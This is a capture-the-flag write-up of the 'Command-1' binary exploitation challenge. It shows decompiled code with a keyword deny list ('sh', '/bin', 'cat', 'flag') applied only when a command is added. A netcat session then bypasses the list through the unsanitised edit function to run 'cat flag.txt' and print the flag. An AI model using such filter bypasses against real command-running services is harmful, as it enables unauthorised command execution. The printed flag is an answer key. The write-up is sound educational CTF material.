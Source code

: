 # Command-1
**Category:** Binary Exploitation

**Points:** 227

**Description:**
> **Given:** command_1

## Writeup
To start, I went ahead and ran the function to see what we are dealing with.
```
$ ./command_1
Please enter your name: itsecgary
Hello itsecgary

-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
```

Looks like we have a menu with some options. After looking through some of the
options and playing with the options in the menu, I opened it up in **Ghidra**
to do a closer analysis of what is happening. Here are some functions we see:

**main**
```
void main(EVP_PKEY_CTX *param_1) {
  int iVar1;

  init(param_1);
  printf("Please enter your name: ");
  read(0,name,0x10);
  printf("Hello %s\n",name);
  do {
    while( true ) {
      while( true ) {
        menu();
        iVar1 = number();
        if (iVar1 != 2) break;
        runcommand();
      }
      if (2 < iVar1) break;
      if (iVar1 == 1) {
        addcommand();
      }
      else {
LAB_00400ec5:
        puts("I don\'t see where you are going.");
      }
    }
    if (iVar1 != 3) {
      if (iVar1 == 4) {
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      goto LAB_00400ec5;
    }
    editcommand();
  } while( true );
}
```

**addcommand**
```
void addcommand(void) {
  char *pcVar1;
  char *__dest;
  long in_FS_OFFSET;
  char *local_30;
  char local_1a [10];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Enter the command you want to add.");
  printf("> ");
  read(0,local_1a,10);
  pcVar1 = strstr(local_1a,"flag");
  if ((((pcVar1 != (char *)0x0) || (pcVar1 = strstr(local_1a,"/bin"), pcVar1 != (char *)0x0)) ||
      (pcVar1 = strstr(local_1a,"sh"), pcVar1 != (char *)0x0)) ||
     (((pcVar1 = strstr(local_1a,"echo"), pcVar1 != (char *)0x0 ||
       (pcVar1 = strstr(local_1a,"cat"), pcVar1 != (char *)0x0)) ||
      ((pcVar1 = strstr(local_1a,"shutdown"), pcVar1 != (char *)0x0 ||
       (pcVar1 = strstr(local_1a,"init 0"), pcVar1 != (char *)0x0)))))) {
    puts("I don\'t see where you are going you idiot");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  if ((int)ind < 3) {
    __dest = (char *)malloc(0x18);
    *(undefined8 *)(__dest + 0x10) = 0;
    strncpy(__dest,local_1a,4);
    pcVar1 = __dest;
    if (head != (char *)0x0) {
      local_30 = head;
      while (*(long *)(local_30 + 0x10) != 0) {
        local_30 = *(char **)(local_30 + 0x10);
      }
      *(char **)(local_30 + 0x10) = __dest;
      pcVar1 = head;
    }
    head = pcVar1;
    printf("Command added at index [%d]\n.",(ulong)ind);
    *(char **)(magic + (long)(int)ind * 8) = __dest;
    ind = ind + 1;
  }
  else {
    printf("No more space you idiot\n.");
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

**editcommand**
```
void editcommand(void) {
  int iVar1;
  ssize_t sVar2;
  long in_FS_OFFSET;
  int local_48;
  char *local_40;
  char local_38 [40];
  long local_10;

  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_48 = 0;
  puts("Enter index you want to edit: ");
  iVar1 = number();
  if (((iVar1 < 0) || (2 < iVar1)) || (*(long *)(magic + (long)iVar1 * 8) == 0)) {
    puts("Oops don\'t hack me please.");
  }
  else {
    local_40 = head;
    while (local_48 != iVar1) {
      local_40 = *(char **)(local_40 + 0x10);
      local_48 = local_48 + 1;
    }
    printf("Enter new command -> ");
    sVar2 = read(0,local_38,0x18);
    if (sVar2 < 0) {
      puts("You must be unlucky.");
                    /* WARNING: Subroutine does not return */
      exit(-1);
    }
    strcpy(local_40,local_38);
    puts("Command edited.");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

**runcommand**
```
void runcommand(void) {
  int iVar1;
  int local_18;
  char *local_10;

  local_18 = 0;
  puts("So you want to run the command:");
  printf("Enter the index of the command: ");
  iVar1 = number();
  if (((iVar1 < 0) || (2 < iVar1)) || (*(long *)(magic + (long)iVar1 * 8) == 0)) {
    puts("What do you want to run you idiot.");
  }
  else {
    local_10 = head;
    while (local_18 != iVar1) {
      local_10 = *(char **)(local_10 + 0x10);
      local_18 = local_18 + 1;
    }
    system(local_10);
  }
  return;
}
```

My apologies for all of the code dumping here, but it is important to see that
the **addcommand()** function checks the input and filters out specific commands that
would be useful to show the flag. The **runcommand()** function simply just runs
the function. The **editcommand()** function edits the command *WITHOUT* sanitizing.

This allows us to add a command, edit that command to whatever we want (probably
  'cat flag.txt') and run that command.

```
$ nc us.pwn.zh3r0.ml 8520
Please enter your name: itsecgary
Hello itsecgary

-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
> 1
Enter the command you want to add.
> poopoo
Command added at index [0]
.-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
> 3
Enter index you want to edit:
0
Enter new command -> cat flag.txt
Command edited.
-------------------
1.) Add command.
2.) Run command.
3.) Edit command.
4.) Exit.
> 2
So you want to run the command:
Enter the index of the command: 0
zh3r0{the_intended_sol_useoverflow_change_nextpointer_toFakechunk_in_bssname}
```

## Flag
zh3r0{the_intended_sol_useoverflow_change_nextpointer_toFakechunk_in_bssname}

## Resources
Ghidra - https://ghidra-sre.org/
